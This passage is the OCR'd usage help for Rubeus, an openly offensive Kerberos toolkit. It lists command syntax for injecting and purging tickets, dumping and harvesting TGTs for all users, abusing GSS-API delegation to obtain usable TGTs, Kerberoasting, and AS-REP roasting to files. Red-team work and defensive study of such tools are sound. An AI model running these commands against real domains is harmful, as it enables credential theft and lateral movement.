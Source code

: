     Ticket management:

        Submit a TGT, optionally targeting a specific LUID (if elevated):
            Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

        Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
            Rubeus.exe purge [/luid:LOGINID]

        Parse and describe a ticket (service ticket or TGT):
            Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI>


    Ticket extraction and harvesting:

        Triage all current tickets on the system (if elevated), optionally targeting a specific LUID, username, or service:
            Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:LDAP]

        List all current tickets (if elevated, list for all users), optionally targeting a specific LUID:
            Rubeus.exe klist [/luid:LOGINID]

        Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
            Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

        Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
            Rubeus.exe tgtdeleg [/target:SPN]

        Monitor every SECONDS (default 60) for 4624 logon events and dump any TGT data for new logon sessions:
            Rubeus.exe monitor [/interval:SECONDS] [/filteruser:USER] [/registry:SOFTWARENAME]

        Monitor every MINUTES (default 60) for 4624 logon events, dump any new TGT data, and auto-renew TGTs that are about to expire:
            Rubeus.exe harvest [/interval:MINUTES] [/registry:SOFTWARENAME]


    Roasting:

        Perform Kerberoasting:
            Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/ou:"OU,..."]

        Perform Kerberoasting, outputting hashes to a file:
            Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"blah/blah"] [/user:USER] [/ou:"OU,..."]

        Perform Kerberoasting with alternate credentials:
            Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/ou:"OU,..."]

        Perform AS-REP "roasting" for any users without preauth:
            Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."]

        Perform AS-REP "roasting" for any users without preauth, outputting hashes to a file:
            Rubeus.exe asreproast /outfile:hashes.txt [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."]

        Perform AS-REP "roasting" for any users without preauth using alternate credentials:
            Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."]
